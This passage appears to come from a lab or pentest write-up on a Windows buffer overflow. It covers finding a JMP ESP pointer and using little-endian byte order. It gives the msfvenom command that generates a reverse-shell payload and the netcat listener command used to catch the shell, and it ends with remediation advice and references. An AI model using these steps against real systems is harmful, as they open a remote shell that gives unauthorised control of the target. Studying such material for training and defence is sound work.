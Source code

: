 Our next step is to find a JMP ESP pointer that we can exploit. What you are looking for is an ESP pointer that has all of the security features turned off. In our instance all of these will do.

Because we are working with x86 assembly, we need to take the address of our jmp esp function and put it into our function using ‘little endian’ format. This basically means we put the bytes in order from right to left. You might have noticed this when you were looking for bad characters.

![[Pasted image 20230116102759.png]]

### Generating A Payload & Getting A Shell

We will generate our payload using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=$your_ip LPORT=$your_port EXITFUNC=thread -b "$bad_chars" -f py`

In our case the ony bad character is the null byte which is 00.

Copy and paste the output from your payload into [trun.py](http://trun.py), set up your netcat listener with`nc -lvnp 4444`, and run the script.

You should get a shell on the remote host.
## Other Actions Performed:
N/A
## Findings:
- [[Buffer Overflow]]
## Remediation:
- Input Validation
- Implement Memory-Safe Functions
## Footnotes:
### References:
[Spike](https://resources.infosecinstitute.com/topic/intro-to-fuzzing/)
[Beginner’s Guide To Buffer Overflows](https://www.hackingarticles.in/a-beginners-guide-to-buffer-overflow/)
[Explains Some Memory Mapping Theory](https://stackoverflow.com/questions/34369379/buffer-overflow-exploit-why-does-jmp-esp-need-to-be-located-in-a-dll)
[Exploit Dev Tricks - Searching for commands](https://resources.infosecinstitute.com/topic/in-depth-seh-exploit-writing-tutorial-using-ollydbg/#commands)